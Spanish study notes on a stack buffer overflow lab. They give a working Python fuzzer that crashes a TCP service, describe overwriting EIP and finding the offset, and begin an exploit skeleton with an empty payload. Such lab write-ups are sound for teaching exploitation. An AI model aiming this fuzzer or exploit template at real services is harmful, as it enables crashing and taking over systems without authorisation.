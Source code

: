 El siguiente paso será utilizar un script de python para realizar el fuzzing para ir probando en qué punto se crashea el programa:
```python
#!/usr/bin/env python3
  
import socket, time, sys

ip = ""  
port = 9999
timeout = 1
prefix = ""
  
string = prefix + "A" * 100
  
while True:
   try:
     with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
       s.settimeout(timeout)
       s.connect((ip, port))
       s.recv(1024)
       print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
       s.send(bytes(string, "latin-1"))
       s.recv(1024)
   except:
     print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
     sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```

Lo ejecutamos y vemos que el programa crashea a los 600 bytes:
![[Pasted image 20231130110825.png]]

Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir (el EIP consiste en la dirección de la próxima instrucción que se ejecutará):
![[Mis apuntes/ANEXOS/Pasted image 20230906192346.png]]

## OBTENER EL OFFSET
Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el offset, lo cual consiste en la cantidad de bytes que hay desde el comienzo del búfer hasta el punto donde se produce el desbordamiento.

Y para ello vamos a enviar un número de esa data algo mayor, por lo que por ejemplo vamos a sumar +400 bytes, por lo que si el programa crasheaba a los 600, le añadimos unos +400 que hacen 1000.

---------------------------

Para este punto, vamos a necesitar otro script de python, que será el siguiente:
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

```